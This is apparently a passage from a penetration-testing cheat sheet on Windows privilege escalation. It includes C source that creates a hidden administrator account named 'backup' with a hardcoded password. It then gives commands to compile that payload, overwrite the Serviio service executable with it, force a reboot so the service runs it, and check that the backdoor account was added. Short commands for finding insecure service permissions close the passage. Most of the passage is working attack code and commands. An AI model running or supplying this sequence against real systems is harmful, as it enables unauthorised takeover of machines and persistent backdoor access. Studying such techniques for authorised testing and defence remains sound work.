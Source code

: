 Overwrite file if have F or W permission.

=== "Compile code adduser.c"

	``` bash
	i686-w64-mingw32-gcc adduser.c -o adduser.exe
	```

=== "adduser.c"

	``` c
	#include <stdlib.h>

	int main ()
	{
	    int add;
	    add = system ("net user backup Adm1nP@ssWD /add");
	    add = system ("net localgroup administrators backup /add");
	    return 0;
	} 
	```

Move file `adduser.exe`

``` bash
move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
```

Check StartMode for service

``` bash
wmic service where caption="Serviio" get name, caption, state, startmode
```

==> StartMode: Auto

Check rights for restart system

``` bash
whoami /priv
```

Restart system

``` bash
shutdown /r /t 0
```

Check Administrators group

``` bash
net localgroup Administrators
```

### Insecure Service Permissions

``` bash
sc qc "service"
```

``` bash
accesschk64.exe -uwcqv <user> *
```
